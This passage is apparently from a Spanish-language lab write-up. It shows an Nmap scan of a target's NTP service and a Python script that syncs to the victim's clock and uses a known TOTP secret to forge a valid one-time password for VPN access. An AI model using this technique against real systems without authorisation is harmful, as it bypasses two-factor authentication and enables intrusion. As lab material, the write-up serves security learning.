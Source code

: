```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-18 17:31 CET
Nmap scan report for 10.10.10.246
Host is up (0.044s latency).

PORT    STATE SERVICE VERSION
123/udp open  ntp     NTP v4 (unsynchronized)
| ntp-info: 
|_  

Host script results:
|_clock-skew: 5s
```
Crearemos un script en python el cual nos generará una clave OTP sincronizando las horas de la máquina víctima con la nuestra

```python
import pyotp
import ntplib
from time import ctime

client = ntplib.NTPClient()
response = client.request("10.10.10.246")
totp = pyotp.TOTP("orxxi4c7orxwwzlo")

print("EL TOKEN es -> %s" % totp.at(response.tx_time))
```
Ejecutamos el script y obetenemos clave OTP válida. Accedemos al servicio vpn mostrado anteriormente

```bash
❯ python3 getToken.py
EL TOKEN es -> 265088
```
